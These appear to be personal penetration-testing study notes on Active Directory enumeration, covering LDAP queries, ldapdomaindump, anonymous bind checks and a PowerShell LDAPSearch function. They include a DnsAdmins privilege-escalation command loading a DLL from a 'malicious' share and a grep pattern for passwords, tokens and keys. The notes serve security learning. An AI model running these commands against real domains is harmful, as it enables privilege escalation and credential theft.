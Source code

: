 		- Dns Admins
			- Can perform dll hijacking to priv esc
			- `dnscmd /config /serverlevelplugindll \\malicious\share\malicious.dll`

**Enumeration with PowerShell and .NET Classes**
- LDAP is the communication channel that AD uses to query things
	- If a domain machine searches for a printer, the search query uses LDAP
	- `LDAP://{Hostname}:{port}/{/DN}`
	- LdapDomainDump - outputs to a pretty HTML page
		- `sudo ldapdomaindump ldaps://{IP} -u '{username}' -p '{password}'`
- Checking for anonymous LDAP bind
	- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={TLD}"`
	- This can yield a ton of information, such as users on the system
		- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={tld}" "(objectClass=person)"`
		- [More info](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
		- Users can have custom fields added, so check each user/group for passwords
			- `| grep -iE "pass|pwd|secret|cred|auth|token|key"`
			- If we find anonymous ldap bind, slowing down for 5-10 mins and just processing the entire output could be nice
	- Checking lockout policy: `ldapsearch -D '{domain}' -w '{password}' -p 389 -h {IP} -b "dc={domain},dc={tld}" -s sub "*" | grep lockoutThreshold`
- Distinguished names (DNs)
	- Uniquely identifies domain objects
	- `CN={obj_name},CN={container},DC={domain_component1},DC={domain_component1}`
		- `CN=Stephanie,CN=Users,DC=corp,DC=com`

**.NET Classes**
- https://learn.microsoft.com/en-us/dotnet/api/?view=net-8.0
- Has a class related to AD, `System.DirectoryServices.ActiveDirectory`
	- Inside this class are multiple classes, like `Domain`
	- Can run `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()` to get the current Domain
- Can use this info to construct LDAP path script

**Using Search Functionality**
- Directory Entry
	- Class which encapsulates AD objects, can pass LDAP paths to it
	- Can also be used to authenticate
- Directory Searcher
	- Must be passed AD service we want to query
	- Has FindAll(), which returns collection of all AD entries
		- This returns a ton, so we need to filter the script (`samAccountType=805306368` to filter for users)
- Can turn this into a function where parameters can be passed
	- Use with `Import-Module .\{name}.ps1` and `LDAPSearch -q "({key}={value})"`
		- `LDAPSearch -q "(samAccountType=805306368)"`
		- `LDAPSearch -q "(objectclass=group)"`

```
function LDAPSearch {
    param (
        [string]$q
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $q)

    return $DirectorySearcher.FindAll()

}
```
